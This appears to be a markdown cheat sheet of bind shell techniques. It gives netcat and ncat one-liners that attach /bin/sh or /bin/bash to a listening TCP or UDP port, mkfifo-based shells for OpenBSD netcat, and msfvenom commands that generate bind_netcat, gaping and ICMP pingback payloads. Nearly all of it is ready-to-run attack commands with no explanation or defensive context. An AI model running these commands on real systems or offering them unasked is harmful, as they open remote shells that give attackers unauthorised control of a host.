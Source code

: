 # Netcat

## 01 - One-liners

### 1.1 - Traditional GNU Method

```
$ nc -lp <PORT> -e /bin/sh

$ nc -lp <PORT> -e /bin/bash
```

### 1.2 - Ncat

TCP method.

```
$ ncat -lp <PORT> -e /bin/bash
```

UDP method.

```
$ ncat -lup <PORT> -e /bin/bash
```

### 1.2 - OpenBSD Method

```
$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

$ mkfifo /tmp/f; (nc -lp <PORT> ||nc -l <PORT>)0</tmp/f | /bin/bash >/tmp/f 2>&1; rm /tmp/f
```

## 02 - Generate a payload via `msfvenom`

### 2.1 - OpenBSD Method

```
$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>
```

### 2.2 - Traditional GNU Method

```
$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>

$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>
```

### 2.3 - ICMP Method

```
$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>
```